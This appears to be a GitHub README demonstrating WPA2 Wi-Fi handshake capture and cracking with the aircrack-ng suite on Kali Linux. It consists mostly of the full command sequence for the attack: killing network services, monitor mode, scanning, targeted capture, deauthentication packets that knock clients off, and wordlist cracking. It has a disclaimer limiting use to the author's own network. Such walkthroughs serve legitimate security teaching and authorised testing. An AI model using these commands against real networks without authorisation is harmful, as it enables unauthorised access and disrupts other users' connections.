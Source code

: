# 🛠️ WiFi Handshake Capture Demo

This project demonstrates how to capture a WPA2 WiFi handshake using tools from the `aircrack-ng` suite on Kali Linux.

> ⚠️ **Disclaimer:** This demonstration is intended **strictly for educational and ethical testing purposes only**.  
> All actions were performed on a private WiFi network owned by the author.  
> Do **not** use these techniques on any network without **explicit permission** from the owner.  
> Unauthorized access to networks is illegal and punishable by law.

---

## 📸 Steps (with Images)

1. **Stop network services**
   ```bash
   sudo airmon-ng check kill
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/kill_services.png)

2. **Enable monitor mode**
   ```bash
   sudo airmon-ng start wlan0
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/enable_monitor_mode.png)

3. **Discover Wi-Fi networks**
   ```bash
   sudo airodump-ng wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/scan_networks.png)

4. **Capture WPA2 handshake**
   ```bash
   sudo airodump-ng -c [CH] --bssid [BSSID] -w capture wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/capture_handshake.png)

5. **Disconnect a device (for handshake)**
   ```bash
   sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/send_deauth_packets.png)

6. **Analyze handshake with a wordlist**
   ```bash
   sudo aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/aircrack_attempt.png)

7. **Result**
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/cracked_success.png)

---

## 📁 Notes

- Environment: Kali Linux
- This project is strictly for learning and demonstration on your own network.
